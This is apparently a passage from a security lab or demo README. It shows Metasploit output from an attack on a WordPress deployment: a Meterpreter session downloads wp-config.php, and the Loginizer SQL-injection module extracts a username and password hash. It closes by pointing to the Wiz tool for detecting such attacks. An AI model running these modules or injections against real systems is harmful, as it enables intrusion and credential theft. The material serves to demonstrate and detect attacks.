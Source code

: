 ```console
 318  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 319  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 320  sh                                                1001  sh -c ps ax -w -o pid,user,cmd --no-header 2>/dev/null
 321  ps                                                1001  ps ax -w -o pid,user,cmd --no-header

[*] Running 'sysinfo' on meterpreter session 1 (3.120.120.128)
Computer    : wordpress-5db67cf9bf-z45tq
OS          : Linux wordpress-5db67cf9bf-z45tq 5.10.227-219.884.amzn2.x86_64 #1 SMP Tue Oct 22 16:38:23 UTC 2024 x86_64
Meterpreter : php/linux
[*] Running 'download /bitnami/wordpress/wp-config.php' on meterpreter session 1 (3.120.120.128)
[*] Downloading: /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php
[*] Downloaded 4.19 KiB of 4.19 KiB (100.0%): /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php
[*] Completed  : /bitnami/wordpress/wp-config.php -> /home/kali/wp-config.php

resource (stdin)> use auxiliary/scanner/http/wp_loginizer_log_sqli
resource (stdin)> set rhost a8fe9c409fcee4d7bbcbd9cab63193f8-449369653.eu-central-1.elb.amazonaws.com
rhost => a8fe9c409fcee4d7bbcbd9cab63193f8-449369653.eu-central-1.elb.amazonaws.com
resource (stdin)> set verbose true
verbose => true
resource (stdin)> run
[*] Checking /wp-content/plugins/loginizer/readme.txt
[*] Found version 1.6.3 in the plugin
[+] Vulnerable version of Loginizer detected
[*] {SQLi} Executing (select group_concat(qVEWKKc) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) qVEWKKc from wp_users limit 1) Dbui)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 wordpress   $P$BMw5qRAPq4/dgegxy/v/jL45GCgc/a0
...
```

The outputs above indicate that the attack against the WordPress site was
successful. We retrieved information about the remote system, including a list
of processes, the `wp-config.php` file, system details, and a list of users
with their password hashes.

## Details in Security tool

Explore the [Wiz](https://wiz.io/) security tool to learn how it can assist in
identifying hacker attacks.
